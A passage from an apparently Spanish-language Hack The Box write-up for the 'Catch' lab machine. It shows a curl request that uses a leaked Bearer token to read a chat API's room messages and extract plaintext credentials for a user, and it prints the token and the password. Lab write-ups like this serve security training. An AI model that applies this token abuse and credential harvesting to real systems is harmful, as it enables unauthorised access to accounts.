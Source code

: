 ```null
    "slug": "employees",
    "name": "Employees",
    "description": "New Joinees, Org updates",
    "lastActive": "2021-12-14T10:18:04.710Z",
    "created": "2021-12-14T10:00:31.043Z",
    "owner": "61b86aead984e2451036eb16",
    "private": false,
    "hasPassword": false,
    "participants": []
  }
]
```

Teniendo los identificadores, puedo intentar listar los mensajes para cada sala

```null
curl -s -X GET "http://10.10.11.150:5000/rooms/61b86b28d984e2451036eb17/messages" -H "Authorization: Bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" | jq '.[].text' | tr -d '"' | tac
Hey Team! I'll be handling the `status.catch.htb` from now on. Lemme know if you need anything from me. 
Can you create an account for me ? 
Sure one sec.
Here are the credentials `john :  E}V!mywu_69T4C}W`
@john is it possible to add SSL to our status domain to make sure everything is secure ? 
Why not. We've this in our todo list for next quarter
Excellent! 
Also make sure we've our systems, applications and databases up-to-date.
You should actually include this task to your list as well as a part of quarterly audit
ah sure!
```

Obtengo credenciales, puede que sean para el Cachet o el  Gitea

<img src="/writeups/assets/img/Catch-htb/6.png" alt="">
